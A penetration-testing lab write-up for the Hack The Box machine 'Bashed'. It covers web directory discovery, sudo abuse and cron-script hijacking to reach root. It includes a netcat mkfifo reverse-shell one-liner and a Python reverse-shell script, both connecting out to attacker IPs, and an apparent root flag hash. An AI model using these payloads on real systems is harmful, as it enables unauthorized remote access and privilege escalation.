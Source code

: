    root.txt:  52c2715605d70c7619030560dc1ca467

### 10.10.10.68 - Bashed

1. Initial nmap scans discovered a web server, and gobuster discovered http://10.10.10.68/dev/phpbash.php a PHP shell application.
   ![image-20201023101136709](.Report.assets/image-20201023101136709.png)

2. From this application, I was able to create a reverse shell connection to my Kali machine:

   ```bash
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i |nc 10.10.14.29 8000 >/tmp/f; rm /tmp/f
   ```

   ![image-20201023101334028](.Report.assets/image-20201023101334028.png)

3. I checked the user's sudo privileges and found I was able to run anything without a password as scriptmanager, another user on the system.  I utilized this to spawn a bash shell as scriptmanager.
   
4. I ran linpeas to enumerate the system and found some interesting behaviour in the /scripts directory, where a file was being updated periodically.  On examination, it seemed that something was running /script/test.py as root every few minutes as the root user.  I created a new test.py with the following code and replaced the old one (after making a backup of it):

   ```bash
   # Full Script - Linux
   import socket,subprocess,os
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
   s.connect(("192.168.119.216",8000))
   os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
   ```

5. I started a netcat listener and quickly received a reverse shell as the root user:
   ![image-20201023173422284](.Report.assets/image-20201023173422284.png)

